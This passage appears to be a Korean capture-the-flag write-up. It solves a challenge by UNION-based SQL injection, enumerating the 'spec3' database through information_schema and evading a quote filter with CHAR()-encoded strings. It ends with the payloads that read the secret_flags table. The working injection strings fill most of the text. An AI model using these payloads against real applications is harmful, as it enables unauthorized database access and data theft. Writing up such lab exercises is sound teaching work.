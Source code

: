 > UNION SELECT 데이터베이스 추출
```html
-1+union+select+database(),2,3,4,5--+
```

![union select](./screenshots/spec3_database.png)

> 데이터베이스 이름 **spec3**

- 후에 이제 `information_schema.tables`를 이용해 데이터베이스 `spec3` 내의 테이블 목록을 확인해보았다.

```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec3'+limit+0,1),2,3,4,5--+
```

- **문자열 리터럴을 포함한 SQL 구문(`'spec3'`)**을 삽입하려 하자, **"error":"Invalid character detected"** 메시지가 출력되며 필터링이 작동하였다. 

- 이를 우회하기 위해 `'spec3'`을 직접 입력하는 대신, 아래와 같이 `CHAR()` 함수를 사용한 **ASCII 기반 문자열 생성 방식**으로 접근하였다.


```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema=CHAR(115,112,101,99,51)+limit+2,1),2,3,4,5--+
```

- 쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

- 이제 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다. 

```html
-1+union+select+(select+column_name+from+information_schema.columns+where+table_schema=CHAR(115,112,101,99,51)+and+table_name=CHAR(115,101,99,114,101,116,95,102,108,97,103,115)+limit+2,1),2,3,4,5--+ 
```

- 쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

- 이후 `flag_value` 컬럼에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
-1+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

-1+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

